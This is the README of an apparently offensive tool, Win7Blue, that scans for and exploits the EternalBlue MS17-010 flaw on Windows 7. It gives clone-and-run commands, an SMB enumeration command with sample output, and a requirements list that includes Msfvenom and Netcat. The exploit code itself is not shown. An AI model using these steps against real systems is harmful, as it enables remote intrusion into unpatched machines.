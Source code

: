# Win7Blue

Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 Bits

- <kbd>Scan</kbd>

![](https://github.com/0xsyr0/OSCP/raw/main/exploits/CVE-2017-0144-EternalBlue-MS17-010-RCE/screenshots/1.png)

- <kbd>Exploit</kbd>

![](https://github.com/0xsyr0/OSCP/raw/main/exploits/CVE-2017-0144-EternalBlue-MS17-010-RCE/screenshots/2.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# cd ~
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git
root@kali:~# cd Win7Blue
root@kali:~# chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum 32/64 bits</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  
- <kbd>Requirements:</kbd>

   * Python
   * Python3
   * Msfvenom
   * Impacket
   * Netcat/Ncat

---
